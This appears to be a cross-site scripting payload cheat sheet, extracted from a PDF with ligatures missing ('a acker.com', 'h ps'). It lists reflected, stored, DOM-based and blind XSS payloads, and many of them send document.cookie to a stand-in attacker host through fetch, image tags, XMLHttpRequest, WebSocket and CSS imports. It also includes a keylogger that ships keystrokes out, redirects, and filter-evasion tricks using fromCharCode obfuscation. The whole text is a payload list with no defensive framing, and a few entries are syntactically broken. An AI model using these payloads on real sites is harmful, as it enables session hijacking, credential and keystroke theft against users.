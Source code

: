 **Reflected Cross-Site Scrip ng (XSS)**

1. Basic alert: 
<script>alert('XSS');</script> 
1. Stealing Cookies: 
<script>fetch('h p://a acker.com/log?cookie=' + document.cookie);</script> 
2. Redirec ng the User: 

<script>window.loca on='h p://a acker.com'</script> 

3. Bypassing Filters (using encoded characters): 

<img src=x onerror=alert('XSS')> 

Or encoded version: 

%3Cimg%20src%3Dx%20onerror%3Dalert%281%29%3E 

4. Using an Event Handler: 

<a href="#" onclick="alert(1)">Click me!</a> 

<a href="javascript:alert(1)">Click me</a>


5. Advanced Payload (using IIFE): 

<script>(()=>{alert('XSS')})()</script> 

<img src="x" onerror="alert&#40;'XSS'&#41;">

<iframe src="javascript:alert(1)"></iframe>

<a href="javascript:alert(1)">Click me</a>


----

**Stored Cross-Site Scrip ng (Stored XSS)** 

1. Simple Alert Box: 
<script>alert('XSS');</script> 
2. Stealing Cookies: 
<script>fetch('h ps://a acker.com/log?cookie=' + document.cookie);</script> 
3. Session Hijacking using Image Tag: 
<img src="x" onerror="fetch('h ps://a acker.com/log?cookie='+document.cookie)"> 
4. Automa c Redirec on 
<script>window.loca on='h ps://a acker.com'</script> 
Advanced Payloads 
1. Bypassing Filters (using JavaScript event handlers): 
<svg onload=alert('XSS')> 
2. Using HTML A ributes: 
<input type="text" value="" onfocus="alert('XSS')" autofocus> 
3. Obfuscated JavaScript: 
<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script> 
4. IIFE (Immediately Invoked Func on Expression): 
<script>(func on(){alert('XSS')})()</script> 

---
**DOM-based Cross-Site Scrip ng (DOM XSS)**
1. URL Parameter Exploita on 
h p://example.com/page.html?name=<script>alert('XSS')</script> 
2. Loca on Hash Manipula on 
h p://example.com/page.html#<img src=x onerror=alert('XSS')> 
3. document.referrer Exploita on 
<a href="h p://example.com/vulnerablePage.html">Go to vulnerable site</a> 
4. Using localStorage 
localStorage.setItem('user', '<img src=x onerror=alert("XSS")>'); 
loca on.reload(); 
5. Bypassing Filters with eval() 
h p://example.com/page.html?data=alert('XSS') 
6. loca on.search with innerHTML 
h p://example.com/page.html?message=<svg/onload=alert('XSS')> 

---

**Basic Blind XSS Payloads **
1. Basic Exfiltra on using <script> 
<script>new Image().src='h ps://a acker.com/log?cookie='+document.cookie;</script> 
2. Using fetch() for Stealth 
<script> 
fetch('h ps://a acker.com/log', { 
method: 'POST', 
mode: 'no-cors', 
body: 'cookie=' + document.cookie + '&url=' + loca on.href 
}); 
</script> 
3. Stealing Data with an img tag 
<img src="h ps://a acker.com/log?data=" + document.cookie> 
Advanced Blind XSS Payloads 
1. Using XMLH pRequest 
<script> 
var xhr = new XMLH pRequest(); 
xhr.open("GET", "h ps://a acker.com/log?cookie=" + document.cookie, true); 
xhr.send(); 
</script> 
2. DOM Exfiltra on with window.onunload 
<body onunload="fetch('h ps://a acker.com/log?cookie=' + document.cookie)"> 
3. Keylogger Payload 
<script> 
document.onkeypress = func on(e) { 
fetch('h ps://a acker.com/keys?key=' + String.fromCharCode(e.which)); 
}; 
</script> 

---

**Obfuscated and Filter Evasion Techniques**
1. Encoded Characters 
<script>eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,
 97,116,116,97,99,107,101,114,46,99,111,109,47,108,111,103,63,99,111,111,107,105,101,61
 ,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41));</script> 
2. Bypassing Filters with SVG 
<svg onload="fetch('h ps://a acker.com/log?cookie='+document.cookie)"> 
3. Using setTimeout 
<script>setTimeout(func on(){fetch('h ps://a acker.com/log?cookie='+document.cookie)}, 2000);</script> 

---

**Stealthy Payloads for Non-Script Contexts**
1. Using an HTML Attribute 
<iframe srcdoc="<script>new 
Image().src='https://attacker.com/log?cookie='+document.cookie;</script>"></iframe> 
2. CSS-Based Payload 
<style>@import 'https://attacker.com/log?cookie='+document.cookie;</style> 
3. Exfiltra ng via WebSocket 
<script> 
let ws = new WebSocket("wss://a acker.com/socket"); 
ws.onopen = func on() { 
ws.send(document.cookie); 
}; 
</script>

---
